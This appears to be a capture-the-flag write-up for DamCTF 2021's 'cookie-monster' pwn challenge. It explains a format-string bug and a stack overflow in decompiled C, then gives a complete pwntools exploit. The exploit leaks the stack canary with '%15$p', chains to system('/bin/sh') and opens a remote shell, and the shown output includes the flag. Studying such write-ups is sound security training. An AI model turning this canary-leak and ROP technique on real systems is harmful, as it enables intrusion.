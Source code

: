 # DamCTF 2021 

## pwn/cookie-monster

> Do you like cookies? I like cookies.
> 
> `nc chals.damctf.xyz 31312`
>
> Author: BobbySinclusto
> 
> [`cookie-monster`](cookie-monster)

Tags: _pwn_ _x86-64_ _bof_ _remote-shell_ _stack-canary_ _format-string_ _rop_


## Summary

Leak stack canary with format string to enable buffer overflow and ROP FTW.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

No PIE, Partical RELRO = Easy ROP, easy GOT overwrite.  x86 (32-bit) makes for even easier ROP (all args passed on stack).


### Decompile with Ghidra    

```c
void bakery(void)
{
  int in_GS_OFFSET;
  char local_30 [32];
  int local_10;
  
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  printf("Enter your name: ");
  fgets(local_30,0x20,stdin);
  printf("Hello ");
  printf(local_30);
  puts("Welcome to the bakery!\n\nCurrent menu:");
  system("cat cookies.txt");
  puts("\nWhat would you like to purchase?");
  fgets(local_30,0x40,stdin);
  puts("Have a nice day!");
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}
```

A couple of vulns here; first there's `printf(local_30)` (no format string), we'll use this to leak the canary, and second there's `fgets(local_30,0x40,stdin)`, where `fgets` is reading in up to `0x40` bytes into a buffer that is `0x30` (`local_30`) bytes from the return address on the stack.  IOW, we have 16 bytes (15 really since fgets will replace the last byte with null) to write out a ROP chain.

If you check the binary there's some freebies in there to make this a lot easier.  First `system` is in the GOT, so we do not need to leak libc, and second `strings cookie-monster | grep bin/sh` returns, well, `/bin/sh`.

We'll only need 12 bytes for a ROP chain.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./cookie-monster')

if args.REMOTE:
    p = remote('chals.damctf.xyz', 31312)
else:
    p = process(binary.path)

p.sendlineafter(b': ',b'%15$p')
p.recvuntil('Hello ')
canary = int(p.recvline().strip(),16)
log.info('canary: ' + hex(canary))

payload  = b''
payload += (0x30 - 0x10) * b'A'
payload += p32(canary)
payload += (0x30 - len(payload)) * b'B'
payload += p32(binary.plt.system)
payload += p32(0)
payload += p32(binary.search(b"/bin/sh").__next__())

p.sendlineafter(b'?\n',payload)
p.interactive()
```

To leak the canary use the format string `%15$p`.

> I used GDB/GEF to find the canary (just type `canary` or look at the stack).

With canary in hand, constructing the 32-bit ROP chain is just:

```
location of system
return address (we do not plan on returning here, so any value is fine)
first arg to system (location of string /bin/sh)
```


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/damctf2021/cookie-monster/cookie-monster'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to chals.damctf.xyz on port 31312: Done
[*] canary: 0xb063cf00
[*] Switching to interactive mode
Have a nice day!
$ cat flag
dam{s74CK_c00k13S_4r3_d3L1C10Us}
```